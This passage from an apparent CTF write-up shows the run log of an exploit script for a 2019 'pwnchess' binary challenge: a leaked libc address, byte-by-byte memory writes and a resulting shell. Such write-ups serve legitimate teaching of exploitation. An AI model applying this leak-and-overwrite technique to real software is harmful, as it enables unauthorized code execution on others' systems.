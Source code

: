 And now to test if it works:

```
$ ./solver.py 
[*] '/home/aaron/CTF-2019/pwn/300-pwnchess/distFiles/pwnchess'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '/lib/x86_64-linux-gnu/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Starting local process '../distFiles/pwnchess': pid 31903
[*] Leaked puts address: 0x7fa8bfd11cc0
[*] Libc base address: 0x7fa8bfc8e000
[*] Switching to interactive mode
244
Enter address in decimal format (e.g. 12345): You entered: 0x60204b
Enter byte in decimal format (e.g. 255): You entered: 0xbf
Value(0xffffffbf) written to 0x60204b
1) Perform a read
2) Perform a write
3) Exit
Remaining moves: 243
Enter address in decimal format (e.g. 12345): You entered: 0x60204c
Enter byte in decimal format (e.g. 255): You entered: 0xa8
Value(0xffffffa8) written to 0x60204c
1) Perform a read
2) Perform a write
3) Exit
Remaining moves: 242
Enter address in decimal format (e.g. 12345): You entered: 0x60204d
Enter byte in decimal format (e.g. 255): You entered: 0x7f
Value(0x7f) written to 0x60204d
1) Perform a read
2) Perform a write
3) Exit
Remaining moves: 241
Enter address in decimal format (e.g. 12345): You entered: 0x60204e
Enter byte in decimal format (e.g. 255): You entered: 0x0
Value(0x00) written to 0x60204e
1) Perform a read
2) Perform a write
3) Exit
Remaining moves: 240
Enter address in decimal format (e.g. 12345): You entered: 0x60204f
Enter byte in decimal format (e.g. 255): You entered: 0x0
Value(0x00) written to 0x60204f
1) Perform a read
2) Perform a write
3) Exit
Remaining moves: 239
$ id
uid=1000(aaron) gid=1000(aaron)
```
